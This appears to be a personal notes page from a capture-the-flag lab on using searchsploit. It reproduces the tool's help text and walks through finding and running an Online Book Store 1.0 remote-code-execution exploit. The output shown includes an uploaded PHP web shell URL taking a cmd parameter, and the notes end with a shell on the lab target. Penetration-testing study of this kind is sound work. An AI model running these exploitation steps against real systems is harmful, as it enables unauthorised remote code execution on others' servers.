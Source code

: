 # Searchsploit

The searchsploit tool is a useful commandline database that allows me to look up a vulnerabilities in the [Exploit Database](https://www.exploit-db.com/searchsploit) based on the name and version of software. This information provides a list of known vulnerabilites and scripts that can be used to run against target machines. Once I install searchsploit on my machine I can look up vulnerabilites without using an internet connection.

## Python 2 Scripts

Searchsploit is a fantastic tool that indexes CVEs and the scripts that were made for those CVEs. Many of the scripts found in this project were made before January 2020 when Python 2 reached end of life. These scripts can be ran using the TryHackMe attack box since it has Python 2 running on it (the python binary). If there is a dependency package in these scripts for a third party package, I will look up the releases for the package on PyPI and get the last one before January 2020.

Usually this allows me to run the script. The two main ways I determine if a script is Python 2 is the print statements and the input command. Python 2 didn't require parentheses when calling print, Python 3 does. The input command handles input differently between Python 2 and Python 3. I try to use my best judgement either way to determine if something can be ran as a Python 2 script or if it can be updated to Python 3.

## Usage

Running `searchsploit -h` provided the following output:

```bash
  Usage: searchsploit [options] term1 [term2] ... [termN]

==========
 Examples 
==========
  searchsploit afd windows local
  searchsploit -t oracle windows
  searchsploit -p 39446
  searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"
  searchsploit -s Apache Struts 2.0.0
  searchsploit linux reverse password
  searchsploit -j 55555 | jq
  searchsploit --cve 2021-44228

  For more examples, see the manual: https://www.exploit-db.com/searchsploit

=========
 Options 
=========
## Search Terms
   -c, --case     [term]      Perform a case-sensitive search (Default is inSEnsITiVe)
   -e, --exact    [term]      Perform an EXACT & order match on exploit title (Default is an AND match on each term) [Implies "-t"]
                                e.g. "WordPress 4.1" would not be detect "WordPress Core 4.1")
   -s, --strict               Perform a strict search, so input values must exist, disabling fuzzy search for version range
                                e.g. "1.1" would not be detected in "1.0 < 1.3")
   -t, --title    [term]      Search JUST the exploit title (Default is title AND the file's path)
       --exclude="term"       Remove values from results. By using "|" to separate, you can chain multiple values
                                e.g. --exclude="term1|term2|term3"
       --cve      [CVE]       Search for Common Vulnerabilities and Exposures (CVE) value

## Output
   -j, --json     [term]      Show result in JSON format
   -o, --overflow [term]      Exploit titles are allowed to overflow their columns
   -p, --path     [EDB-ID]    Show the full path to an exploit (and also copies the path to the clipboard if possible)
   -v, --verbose              Display more information in output
   -w, --www      [term]      Show URLs to Exploit-DB.com rather than the local path
       --id                   Display the EDB-ID value rather than local path
       --disable-colour       Disable colour highlighting in search results

## Non-Searching
   -m, --mirror   [EDB-ID]    Mirror (aka copies) an exploit to the current working directory
   -x, --examine  [EDB-ID]    Examine (aka opens) the exploit using $PAGER

## Non-Searching
   -h, --help                 Show this help screen
   -u, --update               Check for and install any exploitdb package updates (brew, deb & git)

## Automation
       --nmap     [file.xml]  Checks all results in Nmap's XML output with service version
                                e.g.: nmap [host] -sV -oX file.xml

=======
 Notes 
=======
 * You can use any number of search terms
 * By default, search terms are not case-sensitive, ordering is irrelevant, and will search between version ranges
   * Use '-c' if you wish to reduce results by case-sensitive searching
   * And/Or '-e' if you wish to filter results by using an exact match
   * And/Or '-s' if you wish to look for an exact version match
 * Use '-t' to exclude the file's path to filter the search results
   * Remove false positives (especially when searching using numbers - i.e. versions)
 * When using '--nmap', adding '-v' (verbose), it will search for even more combinations
 * When updating or displaying help, search terms will be ignored
```

## Examples

The following examples are ones that I have used in capture the flag exercises.

### Searching

I found a web application that was running the "Online Book Store v1.0" software. Using searchsploit I was able to find all kinds of vulnerabilities. Here is the command I ran to find what exploits were available:

`searchsploit Online Book Store`

The following was the output:

```bash
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
GotoCode Online Bookstore - Multiple Vulnerabilities                                            | asp/webapps/17921.txt
Online Book Store 1.0 - 'bookisbn' SQL Injection                                                | php/webapps/47922.txt
Online Book Store 1.0 - 'id' SQL Injection                                                      | php/webapps/48775.txt
Online Book Store 1.0 - Arbitrary File Upload                                                   | php/webapps/47928.txt
Online Book Store 1.0 - Unauthenticated Remote Code Execution                                   | php/webapps/47887.py
Online Event Booking and Reservation System 1.0 - 'reason' Stored Cross-Site Scripting (XSS)    | php/webapps/50450.txt
------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The `Online Book Store 1.0 - Unauthenticated Remote Code Execution` line caught my eye. Looking in the Path column of the table, I see that `php/webapps/47887.py` is the file to run this exploit. I was to see more information about this exploit. I'll run the following command to get more information:

`searchsploit 47887 -p`

It output the following:

```bash
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Online Book Store 1.0 - Unauthenticated Remote Code Execution                   | php/webapps/47887.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
root@ip-10-10-92-190:~/Instructions# searchsploit 47887 -p
  Exploit: Online Book Store 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47887
     Path: /opt/exploitdb/exploits/php/webapps/47887.py
    Codes: N/A
 Verified: True
File Type: ASCII text
```

The Path in the above output tells me where on my machine searchsploit is storing the exploit file. I can run the script in that directory or copy it over to my current directory. I usually copy it to my directory in case I need to make modifications or if I am including the script in a write up. I copy the script by running:

`searchsploit 47887 -m`

The above command is the same as running the following:

`cp /opt/exploitdb/exploits/php/webapps/47887.py .`

I try to run any python script with python3 because python 2 has been end of life since January 1st, 2020. This script would not work with python 2 since it uses the built in input command and that is handled slightly differently between python2 and python3.

Now I run the command with the following:

`python3 47887.py`

This generated an error saying that the script needs a url to be provided. So I included the root url to the application:

`python3 47887.py http://10.10.1.1`

This generated the output I was hoping for:

```bash
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.1.1/bootstrap/img/oUde8ShIJA.php
> Example command usage: http://10.10.1.1/bootstrap/img/oUde8ShIJA.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $
```

I now have remote shell access on the target machine!
